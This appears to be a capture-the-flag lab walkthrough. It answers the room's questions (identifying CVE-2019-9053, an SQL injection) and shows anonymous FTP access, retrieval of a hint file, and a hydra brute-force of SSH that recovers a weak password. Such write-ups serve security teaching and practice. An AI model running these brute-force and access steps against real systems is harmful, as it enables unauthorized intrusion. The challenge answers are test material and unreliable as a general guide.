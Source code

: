 * _Q1_: How many services are running under port 1000? <br> _A_: `2`
* _Q2_: What is running on the higher port? <br> _A_: `ssh`
* _03_: What's the CVE you're using against the application? <br> _A_: `CVE-2019-9053`
* _04_: To what kind of vulnerability is the application vulnerable? <br> _A_: `SQLi`


<br>

## Attempting FTP login:

* ### FTP Login

	> ftp $IP

	Login successful via user `anonymous`!

* ### Exploring directory listings

	> ls

	```
	drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
	```

	> cd pub
	
	> ls

	```
	-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
	```

	> get ForMitch.txt

	Now, on local shell

	> cat ForMitch.txt

	```
	Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
	```

	Possible username `Mitch` found.

## Attempting SSH login:

* ### SSH Login (user: mitch)

	> ssh -p 2222 mitch@$IP

	Login unsuccessful! Password protected.

* ### Using `hydra` to bruteforce SSH

	> hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222/ | tee hydra.log

	```
	[2222][ssh] host: 10.10.216.127   login: mitch   password: secret
	```
